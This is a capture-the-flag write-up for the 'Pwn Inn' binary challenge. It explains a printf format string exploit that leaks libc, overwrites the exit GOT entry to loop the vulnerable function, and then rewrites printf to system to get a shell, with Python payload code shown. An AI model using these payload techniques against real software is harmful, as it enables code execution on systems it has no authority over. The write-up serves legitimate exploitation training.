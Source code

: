 # The pwn inn
#### Description
As we know that crypto is a hot potato right now, we wanted to welcome you to a safe place, The Pwn Inn. We've had many famous faces stay in our Inn, with gets() and printf() rating us 5 stars. We've decided to start making an app, and wanted you guys to be our beta testers! Welcome!
#### Author
Tango
#### Points and solves
477 points, 58 solves.

In this challenge we are given a binary which calls a function ```vuln```
```c
void vuln(void)
{
  long in_FS_OFFSET;
  char local_118 [264];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fgets(local_118,0x100,stdin);
  printf("Welcome ");
  printf(local_118);
  exit(1);
}
```

We simply have a classic printf format string attack.
We are not given a libc version, so we have to leak libc version aswell.


## 1. Patching ```exit(1)```
We'll, main doesn't return, instead it calls ```exit(1)```, and in order to be able to leak, and ret2libc we need to have atleast two rounds of format string attack.
So we have to patch ```exit(1)``` to something else, in this case it is easy and convenient to patch it with ```vuln```.
This way, every time vuln finishes, it calls itself and we have endless rounds of format string attacks that we can perform.

```python
p.sendlineafter("? \n", b"%45$08p%46$08p%4199080d%10$nAAAA" + p64(elf.sym.got["exit"]) + 8*b"B")
```

Let's breakdown the payload step by step.
#### a. ```%45$08p%46$08p```
Simply translating the format string:
"Print the 45th argument to printf as a pointer padded to size of 8 chars."
The same follows for the 46th argument.
Now, we ask ourselves what does the 45th and 46th arguments hold? Two halves of the return address of main.
Main returns to __libc_start_main, and by leaking the return address of the main function we can narrow down the libc version of the remote to a few libc versions.

### b. ```%4199080d```
Yo ```hex(4199080) = 4012A8```, This means that printf will print its' next argument as a decimal, padded by ```4199080``` digits.
Notice that the ```vuln``` is at: ```0x4012c4```.
We already printed 16 characters by leaking the 45th and 46th arguments which totals to ```0x4012c``` printed characters.
This allows us to easily overwrite ```exit``` to ```vuln``` using the next step.

### c. ```%10$nAAAA + p64(elf.sym.got["exit"]) + 8*b"B"```
Remind ourselves of the ```%n``` format modifier of printf, which writes the total characters written so far to the value to the pointed by the next argument of printf.
Or if we specifiy ```%idx$n```, it writes that value to the value pointed by the ```idx```th argument to printf.
So, with a bit of debugging, it's possible to align the GOT entry for ```exit``` to be the ```10th``` argument to printf. (Using the ```A```s to push the address around the stack, and ```B```s simply for visibility.)
And by doing that we write ```vuln = 0x4012c4``` to the GOT of ```exit```.

## 2. Getting shell
So, now, every time vuln exits, it actually calls itself and after sending the first paylod we enter a second round of format string attack.
Moreover, we leaked a libc address from ```__libc_start_main``` and we can narrow down the libc version and calculate the offset of ```system```.
Now the plan is, to overwrite the GOT entry of  ```printf``` to ```system```.
However, the problem is that the address of system is so large, that in if we want to print that many characters the challenge will time us out.
We must split and write in three small batches. (Also possible in two batches)

Lets visualize the address of ```system```.
For example lets say that ```system``` is at ```0xAAAABBBBCCCCDDDD``` in our case ```0xAAAA = x0000```
So, let's assume that ```BBBB``` > ```CCCC``` > ```DDDD```. 
We can write ```0xDDDD``` characters using printf, and immediatly after that overwrite the first 2 bytes of ```GOT.printf``` with ```DDDD```
After that, we can print ```0xCCCC-0xDDDD``` bytes, which totals to ```0xCCCC``` characters printed overall and overwrite bytes 3 and 4 of ```GOT.printf```.
Similiarly we can continue to ```BBBB```.
However that assumption doesnt always hold, because libc addresses are randomized, so we have to get lucky for our assumption to hold.
But sorting ```[BBBB, CCCC, DDDD]``` and constructing the format string from the lowest entry to the highest will make the attack successfull every time.

The final format string attack:
```python
l = [third1, third2, third3]
l.sort()
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%11$hn" +\
	b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%12$hn" +\
	b"%" + ("%05d"%(l[2]-(l[1]))).encode("ascii") + b"d%13$hn" +1*b"\x00"
for i in range(0,3):
    if l[i] == third1:
        payload += p64(elf.sym.got["printf"]+4)
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```

Seems complex, but if you have been following the explanation it's straight forward.
```l``` is the list ```[BBBB, CCCC, DDDD]```, we sort it.
Now we can construct the payload and print 3 batches of characters in order from lowest to highest.
Each batch will print the correct amount of characters and afterwards will perform ```d%11$hn``` (or ```%12$n``` or ```%13$n```). Which will write a short to the appropriate address. (because we use ```hn``` instead of ```n```).

Last part of the payload that is constructed in the for-loop simply matches the correct offset of GOT.printf address with the right batch.
For example, if assume for the sake of explanation ```third1 < third2 < third3```. 
The first batch of the payload will print ```third1``` characters and will write the result to the 11th argument. Therefore the 11th argument must correspond to the offset that is appropriate for writing the first third.
The same follows for ```third2``` and ```third3```.
In parallel to the example: ```0xAAAABBBBCCCCDDDD```, ```AAAA``` belongs in ```GOT.printf + 6```, ```BBBB```` belongs in ```GOT.printf + 4``` and so on.

We send this line, and then ```exit``` returns us to ```vuln```, write ```/bin/sh``` and this parameter will be passed to printf which is now actually ```system``` :)


### How to narrow libc version
A very nice website at [libc database search](https://libc.nullbyte.cat/) will narrow down the libc version based on known offsets.




